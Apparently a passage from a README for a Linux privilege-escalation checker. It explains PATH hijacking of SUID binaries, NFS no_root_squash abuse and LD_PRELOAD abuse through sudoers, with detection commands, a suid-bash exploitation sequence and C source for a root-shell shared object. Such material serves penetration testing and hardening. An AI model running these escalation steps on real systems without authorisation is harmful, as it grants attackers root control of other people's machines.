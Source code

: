 ```
export PATH=/tmp:$PATH
```
For more information, checks these two examples [here](https://0xrick.github.io/hack-the-box/zipper/#privilege-escalation-and-getting-root) and [here](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

To detect it, on each suid binary, we try to find the system call using objdump. 
```
objdump -T suid_bin | grep " system"
```

If it exists, we realise a `strings` on this binary, and try to found a string which does not use an absolute path and that it exists as a built in binary (/bin, /usr/bin, /sbin, etc.). Some false positive can occur, so a manual check should be done.     

This cannot be done if exec functions are used (execve|execl|execlp|execle|execv|execvp|execvpe) because the file should be run from an absolute path. 

NFS Root Squashing
----

If __no_root_squash__ appears in `/etc/exports`, privilege escalation may be done. More information can be found [here](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/).

Exploitation:
```
mkdir /tmp/nfsdir  # create dir
mount -t nfs 192.168.1.10:/shared /tmp/nfsdir # mount directory 
cd /tmp/nfsdir
cp /bin/bash . 	# copy wanted shell 
chmod +s bash 	# set suid permission
```

LD_PRELOAD
----

If __LD_PRELOAD__ is explicitly defined on sudoers file, it could be used to elevate our privilege. \

For example: 
```
Defaults        env_keep += LD_PRELOAD
```

Create a share object:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
